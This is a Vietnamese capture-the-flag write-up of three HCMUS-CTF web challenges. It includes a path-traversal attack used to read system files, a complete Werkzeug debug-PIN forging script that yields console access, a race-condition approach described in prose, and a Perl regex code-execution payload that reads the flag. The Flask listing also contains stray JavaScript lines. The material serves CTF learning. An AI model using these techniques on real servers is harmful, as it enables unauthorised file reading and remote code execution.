

# HCMUS_CTF - Quals
<hr />
  
## `GenshinWiki`   
  
```  
Description: Flag stored at ./flag.txt  
Attachment: Dockerfile  
```  
  
Challenge này cho một file `Dockerfile` có nội dung như sau  
```
FROM ubuntu:16.04

RUN apt-get update -y && \
    apt-get install -y python-pip python-dev

COPY ./requirements.txt /app/requirements.txt

WORKDIR /app

RUN pip install -r requirements.txt

COPY . /app

EXPOSE 3000

CMD ["python", "app.py"]
```  

Tổng quan về challenge thì web dính lỗi `Path traversal`, từ chổ này ta có thể đọc bất kỳ file nào trên server. Đồng thời, lợi dụng lỗi này ta có thể dễ dàng lấy source ở `/app/app.py`  
  
Source code:  
```python  
import glob
import json
from flask import Flask, render_template, request

app = Flask(__name__)

with open("flag.txt", "r") as f:
    flag = f.read()


@app.route("/")
def index():
    file_list = glob.glob("characters/*")
    file_list.sort()
    character_list = []
    for file in file_list:
        with open(file, "r") as f:
            character = json.loads(f.read())
        character_list.append(character)
    return render_template("index.html", character_list=character_list)


@app.route("/character")
def character():
    slug = request.args.get("name")
    with open("characters/" + slug, "r") as f:
        data = f.read()
    if flag in data:
        return "No flag for you! Checkmate!"
    return render_template("character.html", data=data)

if __name__ == "__main__":
    app.run("0.0.0.0", 3000, debug=True);
    document.title = `${character.name} | Genshin Impact - Wikipedia`;
    document.querySelector("#img").src = character.img;
    document.querySelector("#name").innerText = character.name;
    document.querySelector("#title").innerText = character.title;
    document.querySelector("#intro").innerText = character.intro;
    document.querySelector("#personality").innerText = character.personality;  
```
Dễ dàng thấy lỗi `Path traversal` ở route `/character`  
```python
@app.route("/character")
def character():
    slug = request.args.get("name")
    with open("characters/" + slug, "r") as f:
        data = f.read()
    if flag in data: # Vì bị check chổ này nên ta không thể đọc được flag một cách dễ dàng được :((
        return "No flag for you! Checkmate!"
    return render_template("character.html", data=data)
```  
Vì options `debug=True` được mở, nên có thể dễ dàng check được rằng là route `/console` đang được bật, nhưng cần phải có `PIN code`. Giờ việc cần làm là gen lại được cái `PIN code` đấy để có thể đọc flag.  
  
Code gen pin:
```python
import hashlib 
from itertools import chain
import os
import getpass

pin = None
rv = None
num = None

probably_public_bits = [ 
  'root' , # Vì deloy bằng docker nên ta có thể đoán được, hoặc đọc file /etc/passwd và có thể confirm rằng ta có thể đọc /etc/shadow qua Path traversal 
  'flask.app' , # modname Always the same 
  'Flask' , # Always the same
  '/usr/local/lib/python2.7/dist-packages/flask/app.pyc' # getattr(mod, '__file__', None) => Cái này các bạn tự deloy rồi kiểm tra nhé  
]
# PIN = 336-514-623  

def _generate():
    linux = b""
    for filename in "./machine-id.txt", "./boot_id.txt": # machine-id.txt từ /etc/machine-id (có thể có hoặc không) và bood_id lấy từ /proc/sys/kernel/random/boot_id
        try:
            with open(filename, "rb") as f:
                value = f.readline().strip()
        except IOError:
            continue

        if value:
            linux += value
            break
    try:
        with open("./cgroup.txt", "rb") as f: # file cgroup.txt lấy từ /proc/self/cgroup
            linux += f.readline().strip().rpartition(b"/")[2]
    except IOError:
        pass

    if linux:
        print(linux)
        return(linux)
private_bits = [
  "6715920611201", # Đây là MAC address được convert sang decimal, đầu tiên đọc /proc/net/arp để tìm network interface (case này là eth0) và sau đó, đọc /sys/class/net/eth0/address để lấy địa chỉ MAC rồi convert sang decimal là xong
  _generate()
 ]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)

h.update(b"cookiesalt")

cookie_name = "__wzd" + h.hexdigest()[:20]

if num is None:
    h.update(b"pinsalt")
    num = ("%09d" % int(h.hexdigest(), 16))[:9]

if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
        else:
            rv = num
print(rv)
```  
Sau khi có `PIN code` thì nhập vào và chiếm được console rồi đọc flag!!
> FLAG: `HCMUS-CTF{turn-off-debug-mode-pls}`  
    
## `CuteShopV2`   
  
Source code:  
```nodejs
const express = require("express");
const session = require('express-session')
const config = require("./config");
const path = require("path");
const mysql = require("mysql2");
const port = process.env.APP_PORT || 1337;
const host = "0.0.0.0";
const FLAG = "Flag{ahih}" //require("fs").readFileSync("flag.txt");

const connection = mysql.createConnection({
    host: 'localhost',
    user: 'root',
    database: 'test'
  });
(function initDB() {
    sql = `create table if not exists users(
        id int not null auto_increment,
        username nvarchar(30) not null,
        password nvarchar(40) not null,
        money int,
        gifted tinyint(1),
        primary key (id)
    )`
    connection.query(sql);
    sql = `insert into users(username, password) values("HCMUS-admin", "HCMUS-${config.admin_password}")`
    connection.query(sql);
})();

const app = express();
app.use(express.json());
app.use(session(config.session));
app.use(express.static("public"))

app.set("view engine", "pug");
app.set("views", path.join(__dirname, "views"));

app.use((req, res, next) => {
    const allowedType = ["string", "number"];
    for (key in req.query) {
        if (!allowedType.includes(typeof (req.query[key])))
            return res.send("Nice try");
    }
    for (key in req.body) {
        if (!allowedType.includes(typeof (req.body[key])))
            return res.send("Nice try");
    }
    next();
})

app.get("/", (req, res) => {
    if (!req.session.authenticated)
        return res.redirect("/login");
    connection.query(
        "select money from users where username=?",
        [req.session.username],
        (err, result) => {
            money = 0;
            if (err)
                money = 0;
            else
                money = result[0].money;
            return res.render("index", { authenticated: req.session.authenticated, username: req.session.username, money: money });
        }
    )
});

app.get("/source", (req, res) => {
    return res.sendFile(path.join(__dirname, "server.js"));
})

app.route("/login")
    .all((req, res, next) => {
        if (req.session.authenticated)
            return res.redirect("/");
        next();
    })
    .get((req, res) => {
        res.render("login", { authenticated: false });
    })
    .post((req, res) => {
        username = req.body.username;
        if (typeof username == 'undefined')
            return res.json({ "status": 403, "message": "Username can't be blank" });
        password = req.body.password;
        if (typeof password == 'undefined')
            return res.json({ "status": 403, "message": "Password can't be blank" });
        connection.query(
            "select * from users where username = ? and password = ?",
            [username, password],
            (err, result) => {
                if (err)
                    return res.json({ "status": 403, "message": "Error occur" });
                if (result.length < 1)
                    return res.json({ "status": 403, "message": "Wrong username or password" });
                req.session.username = username;
                req.session.authenticated = true;
                return res.json({ "status": 200, "message": "Logged in" });
            }
        )
    })

app.route("/register")
    .get((req, res) => {
        res.render("register", { authenticated: false });
    })
    .post((req, res) => {
        username = req.body.username;
        if (typeof username == 'undefined')
            return res.json({ "status": 403, "message": "Username can't be blank" });
        password = req.body.password;
        if (typeof password == 'undefined')
            return res.json({ "status": 403, "message": "Password can't be blank" });
        connection.query(
            "select * from users where username = ?",
            [username],
            (err, result) => {
                if (err)
                    return res.json({ "status": 403, "message": "Error occurs" });
                if (result.length > 0)
                    return res.json({ "status": 403, "message": "Username already taken" });
                connection.query(
                    "insert into users(username, password, money, gifted) values(?, ?, 10, 0)",
                    [username, password],
                    (err) => {
                        if (err)
                            return res.json({ "status": 403, "message": "Error occurs" });
                        return res.json({ "status": 200, "message": "Create account successful" });
                    })
            })
    })

app.route("/flag")
    .post((req, res) => {
        if (!req.session.username)
            return res.json({ "status": 403, "message": "Not logged in" });
        connection.query(
            "select money from users where username=?",
            [req.session.username],
            (err, result) => {
                money = 0;
                if (err)
                    money = 0;
                else
                    money = result[0].money;
                if (money > 100)
                    return res.json({ "status": 200, "message": `Here is your flag: ${FLAG}` })
                return res.json({ "status": 403, "message": "But you dont have enough money" });
            })
    })

async function log(receiver) {
    // TODO: add real code instead of sleep
    const sleep = ms => new Promise(resolve => setTimeout(resolve, ms))
    await sleep(200);
}

app.route("/gift")
    .all((req, res, next) => {
        if (req.session.authenticated) {
            if (req.session.username == "HCMUS-admin")
                return next();
            return res.sendStatus(403);
        }
        return res.redirect("/login");
    })
    .get((req, res) => {
        return res.render("gift");
    })
    .post((req, res) => {
        receiver = req.body.receiver;
        if (typeof username == 'undefined')
            return res.json({ "status": 403, "message": "Username can't be blank" });
        connection.query(
            "select * from users where username=?",
            [receiver],
            (err, result) => {
                if (err)
                    return res.json({ "status": 403, "message": "Error occurs" });
                if (result.length < 1) {
                    return res.json({ "status": 403, "message": "Username not found" });
                }
                isGifted = result[0].gifted;
                if (isGifted)
                    return res.json({ "status": 200, "message": "Already gifted" });
                connection.query(
                    "update users set money = money + 10 where username=?",
                    [receiver],
                    (err) => {
                        if (err)
                            return res.json({ "status": 403, "message": "Error occurs" });
                        log(receiver).then(() => {
                            connection.query(
                                "update users set gifted = 1 where username=?",
                                [receiver],
                                (err) => {
                                    if (err)
                                        return res.json({ "status": 403, "message": "Error occurs" });
                                    return res.json({ "status": 200, "message": "Success" });
                                })
                        });
                    })
            })
    })

app.route("/logout")
    .get((req, res) => {
        delete req.session.authenticated;
        delete req.session.username;
        res.redirect("/login");
    })

app.listen(port, host);
console.log(`Running on http://${host}:${port}`);
```
Đọc source code thì ta thấy code có chức năng như sau:
- Nếu `money > 100` thì có thể đọc được FLAG
- Nếu như là admin thì có thể tặng 10$ cho bất cứ user nào
- Mỗi user chỉ được tặng 1 lần  

Nhưng may mắn là có một bạn nói với mình là pass của admin đơn giản là `HCMUS-` (không biết có config lỗi hay không XD), nhờ vậy mà cuộc sống đỡ bế tắc hơn hẳn :((. Có admin rồi nhưng mỗi user chỉ được tặng một lần?? => `Race condition`, nghĩa là lấy session admin rồi gửi request đùn đùn vào route `/gift` để số tiền được cộng dồn là được.  
  
> Flag: `HCMUS-CTF{rac3-t0-The-Fl444g}`  
 
## `regex`   
  
Đây là một challenge được code bằng `perl` thực thi qua `CGI-bin`, chức năng là lấy regex từ user qua param `?search` và file cần đọc qua param `?language` sau đó trả về nội dung trong file đấy khớp với regex là xong.  
  
Lợi dụng việc đó, ta có thể kéo source code về gồm 3 file: `api.pl`, `helper.pl` và `index.pl`, nhưng chức năng chính nằm ở `api.pl` nên ta chỉ focus vào `api.pl` trong trường hợp này nhé!  
  
```perl
#!/usr/local/bin/perl

require "./helper.pl";

use CGI;
$cgi = CGI->new;
$search = $cgi->url_param('search');
$language = $cgi->url_param('language');

print $cgi->header('text/plain','200 OK');

$content = read_file($language);
@words = split('\n', $content);
@filtered = ();
foreach ( @words ) {
  if ($_ =~ qr/$search/) {
    push(@filtered, $_);
  }
}

print join("\n", @filtered);
```  
Code cũng không có vấn đề gì, nhưng sau một hồi tìm docs về `regular expression` về `perl` thì mình tìm thấy một pattern có khả năng thực thi code trong nó  
  
  
Payload: ``` /cgi-bin/api.pl?search=(?{print+`cat+/FLAAAG_HERE_NO_ONNE_CAN_GUESSS_M3.wtf`})&language=./content/english.txt```  
   
> Flag: `HCMUS-CTF{learn-me-plz-https://www.rexegg.com/regex-disambiguation.html}`   
## `Pokegen` 
